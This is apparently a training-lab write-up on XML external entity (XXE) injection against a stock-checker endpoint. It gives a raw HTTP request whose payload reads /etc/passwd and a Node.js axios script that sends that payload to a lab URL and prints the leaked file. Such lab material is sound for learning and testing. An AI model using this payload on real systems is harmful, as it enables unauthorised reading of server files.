 # 1 - XXE To Retrieve Files

### Notes

The stock checker feature uses XML to query stock levels by product id and store id. It is vulnerable to XXE injection.

We can define our own external entity by adding a DOCTYPE element. Our entity will reference the `/etc/passwd` filepath for its definition.

```http
POST /product/stock HTTP/1.1

...

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>2</storeId>
</stockCheck>
```

### Scripted Solution

```javascript
const axios = require('axios').default
require('dotenv').config({ path: './.env' })

/**
 * Run exploit.
 */
async function main() {
  const labUrl = process.env.LAB_URL

  /**
   * <?xml version="1.0" encoding="UTF-8"?>
   * <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]>
   * <stockCheck>
   *   <productId>&xxe;</productId>
   *   <storeId>2</storeId>
   * </stockCheck>
   */
  const xxe = `<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]><stockCheck><productId>&xxe;</productId><storeId>2</storeId></stockCheck>`

  try {
    await axios.post(`${labUrl}/product/stock`, xxe, {
      headers: { 'Content-Type': 'text/xml' }
    })
  } catch (error) {
    console.log(error.response.data)
  }
}

main()
  .then(() => process.exit(0))
  .catch(error => {
    console.error(error)
    process.exit(1)
  })
```

